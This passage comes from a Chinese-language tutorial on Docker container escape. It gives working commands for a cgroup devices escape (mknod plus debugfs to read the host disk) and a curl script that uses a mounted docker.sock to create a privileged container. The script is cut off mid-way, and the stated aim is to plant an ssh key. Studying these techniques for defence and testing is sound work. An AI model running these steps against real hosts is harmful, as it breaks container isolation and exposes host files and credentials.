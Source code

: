 ```bash
mkdir /tmp/test2 && mount -t cgroup -o devices devices /tmp/test2
```
之后我们进入这个特权容器的目录:
```bash
cd /tmp/test2/docker/df680d1eeabe74c0aab5dce1615a80bbf6855b2376c34f9ec1727885548263a1
```
修改devices.allow添加白名单，这样我们可以访问所有设备文件  
```bash
echo a > devices.allow
```
返回到根目录，使用mknod创建设备文件,再用debugfs进行访问，关于mknod命令:  
>mknod命令用于创建Linux中的字符设备文件和块设备文件
mknod 命令的第一种形式只能由 root 用户或系统组成员执行。在第一种形式中，使用了b 或 c 标志。b 标志表示这个特殊文件是面向块的设备（磁盘、软盘）。c 标志表示这个特殊文件是面向字符的设备（磁带，键盘）。  
 
这里我们只需要了解第一种形式。  
```bash
cd /
mknod test b 253 0 #创建一个与宿主机相同设备号的设备文件
```

注意，这里的主设备号是253，次设备号是0，不同的宿主机的环境可能不一样，对于k8s集群的容器环境，参考腾讯蓝军的方法，获取主次设备号可以从/proc/self/mountinfo中的 /etc/hosts， /dev/termination-log，/etc/resolv.conf， /etc/hostname 得到；由于我的测试环境是单一容器，无法在mountinfo信息中找到从宿主机挂载到容器内的路径，我的方法是：  
```bash
df -l #获取到容器内的挂载信息，查看挂载到/etc/hosts的Filesystem
```
找到了宿主机的文件系统，再去mountinfo(如果docker中没有需要将/dev/xxx挂载到容器内)里面去查看，就可以获取到主次设备号，当创建好了设备文件，我们可以通过debugfs去访问：
```bash
debugfs -w test
```
debugfs中可以使用cat命令，读取宿主机配置文件信息，进行后续操作。



## 0x04 特殊路径挂载逃逸
### /var/run/docker.sock挂载逃逸
当挂载了docker.sock，我们可以创建一个特权容器进行逃逸，也就是docker in docker。  
首先我们创建一个测试容器:  
```bash
sudo docker run -it -v /var/run/docker.sock:/var/run/docker.sock --name=test2 ubuntu /bin/bash
```  
考虑到容器内没有docker client，这时候回顾下开头讲的Docker Engine API，我们可以用curl命令去创建一个特权容器并挂载设备，写入ssh key，达到逃逸的目的，为了简化操作，实战中可以简化成一个脚本，这里参考了:  
<https://gist.github.com/dapplebeforedawn/7733a6486f02d21f68053c0c1e43431f>  
修改之后的脚本如下:
```sh
#! /usr/bin/env bash

# Create the container with a long running process.  If PID1 exists before
# we send the exec commands, they will fail because the container is not running
# 创建一个特权容器
CONTAINER_NAME="TEST-1"
curl --silent --unix-socket /var/run/docker.sock "http://localhost/containers/create?name=${CONTAINER_NAME}" -XPOST \
  -H "Content-Type: application/json" \
  -d '{
    "Image": "ubuntu",
    "Cmd": [ "sleep", "10"],
    "HostConfig":{"Privileged":true}
  }' | jq '.'

# Start the container
#
curl --silent --unix-socket /var/run/docker.sock "http://localhost/containers/${CONTAINER_NAME}/start" -XPOST \
```